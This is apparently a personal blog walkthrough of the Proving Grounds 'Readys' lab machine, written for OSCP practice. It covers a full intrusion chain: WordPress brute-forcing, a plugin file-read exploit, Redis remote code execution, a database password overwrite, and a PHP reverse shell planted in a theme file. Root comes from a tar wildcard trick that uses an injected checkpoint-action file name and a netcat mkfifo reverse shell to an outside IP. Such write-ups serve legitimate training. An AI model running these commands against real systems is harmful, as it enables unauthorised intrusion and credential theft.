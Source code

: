 ```yaml
---
title: Readys Walkthrough - Proving grounds
tags: PG OSCP
categories: Linux
---
```

In this entry I will solve PG's Readys machine. It is an Linux machine in the [TJNull](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview) list. My purpose in sharing this post is to prepare for OSCP exam. It is also to show you the way if you are in trouble. Please try to understand each step and take notes.

# Port and service enum

`nmap -sC -sV -p22,80,6379 192.168.223.166 -Pn -o targeted.txt`

![c5391e4051b28caa4a2edecf56afeb50.png](/assets/img/screenshots/Readys/c5391e4051b28caa4a2edecf56afeb50.png)

By visiting http[:]//192.168.223.166/ I find wordpress running so I run wpscan.

## Wordpress enumeration

`wpscan -e --url http[:]//192.168.223.166/`

![6b16ef438cdc9c202a84aab24c57591c.png](/assets/img/screenshots/Readys/6b16ef438cdc9c202a84aab24c57591c.png)

The website discloses the admin user. I try to bruteforce the user runing wpscan

`wpscan -e --url http[:]//192.168.223.166/wp-login.php -U admin -P /usr/share/wordlists/rockyou.txt`

## Redis enumeration

While the attack is running I check redis, I try to connect and get some info but authentication is required

`redis-cli -h 192.168.223.166`

![eae720747869812f3e7085d2ea0789d1.png](/assets/img/screenshots/Readys/eae720747869812f3e7085d2ea0789d1.png)

## Back to WP

Going back to the WordPress site, inspecting the source code I find SiteEditor plugin.

![6076885f10b4dcfbd3a4a4fa8223dc2f.png](/assets/img/screenshots/Readys/6076885f10b4dcfbd3a4a4fa8223dc2f.png)

I google for any exploit and I find a possible LFI https://www.exploit-db.com/exploits/44340

`[http[:]//192.168.223.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax\_shortcode\_pattern.php?ajax_path=/etc/passwd](http[:]//192.168.223.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax%5C_shortcode%5C_pattern.php?ajax_path=/etc/passwd)`

![768b40cdbb003c2ea7b4e4fdace55e0e.png](/assets/img/screenshots/Readys/768b40cdbb003c2ea7b4e4fdace55e0e.png)

## Back to redis

As redis is running, I try to read redis configuration file, under /etc/redis https://stackoverflow.com/questions/32284494/where-is-the-data-directory-in-redis.

`[http[:]//192.168.223.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax\_shortcode\_pattern.php?ajax_path=/etc/redis/redis.conf ](http[:]//192.168.223.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax%5C_shortcode%5C_pattern.php?ajax_path=/etc/redis/redis.conf )`


I find a possible username for Redis service

![d744357582946f7c99ae541cf13d1163.png](/assets/img/screenshots/Readys/d744357582946f7c99ae541cf13d1163.png)

By typing `AUTH Ready4Redis?` I  get the Redis version: 5.0.14.

![532c82325e1499468947b4b2d704e4bd.png](/assets/img/screenshots/Readys/532c82325e1499468947b4b2d704e4bd.png)

# Getting a shell

After googling for the version  I came out that this version is vulnerable to RCE . In this case I use the following [exploit](https://github.com/n0b0dyCN/redis-rogue-server). If fails try again :)

![7c570a5c9b43f3201629238e63a2bbf6.png](/assets/img/screenshots/Readys/7c570a5c9b43f3201629238e63a2bbf6.png)

I get a TTY through `python3 -c "import pty; pty.spawn('/bin/bash')".` After that I search for the mysql database credentials in `/var/www/html/wp-config.php`

![63258e92a72d7fe42dd95cb11f310676.png](/assets/img/screenshots/Readys/63258e92a72d7fe42dd95cb11f310676.png)

# MySQL

I connect to mysql and then I dump admin's credentials:

`mysql -u karl -p` Then paste the password found on wp-config.php

`show databases;`

`use wordpress;`

`select * from wp_users;`

![569b714daa20fc604f40c8e724b95821.png](/assets/img/screenshots/Readys/569b714daa20fc604f40c8e724b95821.png)
I try to crack the hash but I do not get any result, so I update admin's password in mysql databse, for that I use [wodpress hash generator](https://www.useotools.com/wordpress-password-hash-generator/.) tool

![bf64b842a1784c3b54a9d96863a1e8a9.png](/assets/img/screenshots/Readys/bf64b842a1784c3b54a9d96863a1e8a9.png)

By typing the desired password, the tool creates the mysql command to update the user's password. **Remember to rename your_user_name by 'admin' and add ";" **

``UPDATE `wp_users` SET `user_pass` = '``$P$`BxLKwoTitAjOYxf8iHcDrx0Z3ksN8v/' WHERE user_login = 'admin';`

![8228a5ec0cb9527c65914d3086843920.png](/assets/img/screenshots/Readys/8228a5ec0cb9527c65914d3086843920.png)

# WordPress Exploitation

After that I log in to the WordPress admin portal, with admin:admin

Go to Appearance -->Theme editor. (I am using twentytwenty template)

![4748cfa6680b70d337cf2ec9c3839b69.png](/assets/img/screenshots/Readys/4748cfa6680b70d337cf2ec9c3839b69.png)

Edit 404.php file and copy [pentestmonkey's reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) or generate one with msfvenom:

msfvenom -p php/reverse_php LHOST=192.168.45.159 LPORT=88 -f raw > reverse.php

Then trigger the exploit by visiting `[http[:]//192.168.223.166/wp-content/themes/twentytwenty/404.php](http[:]//192.168.223.166/wp-content/themes/twentytwenty/404.php)`

# Privilege Escalation

After getting the shell I check crontab and a backup.sh file is running.

![6d43ef534744f360c62594fb2eb4963b.png](/assets/img/screenshots/Readys/6d43ef534744f360c62594fb2eb4963b.png)

Reading the backup file is seems that the script uses "tar" command

![f38f9eb8b8230c5bc6e76be24955b121.png](/assets/img/screenshots/Readys/f38f9eb8b8230c5bc6e76be24955b121.png)

### Wildcard for Privilege Escalation

The tar command in that script is using a wildcard to backup all files

First, I will create a reverse shell called "shell.sh" using netcat

`echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1| nc 10.10.10.10 4445 >/tmp/f" > shell.sh`

The following commands will create two empty files with the names: “–checkpoint-action=exec=sh shell.sh” and “–checkpoint=1”. These file names will be interpreted by Tar as switches when Tar attempts to bundle them. Once –checkpoint=1 is invoked tar will look for any possible actions to take. In this case that action will be to execute “sh shell.sh”.

`echo "" > "--checkpoint-action=exec=sh shell.sh"`

`echo "" > --checkpoint=1`

Finally, a netcat listener is created on the Kali machine on port 4445. Since the cronjob on the victim machine runs every two minutes the netcat listener will receive a connection within that amount of time and then spawn a shell as the root user.

Wait to the crontab and get the shell as root

![ef8bce19d64b5cc79ead44d0d007ed59.png](/assets/img/screenshots/Readys/ef8bce19d64b5cc79ead44d0d007ed59.png)

Pwn3d! :D
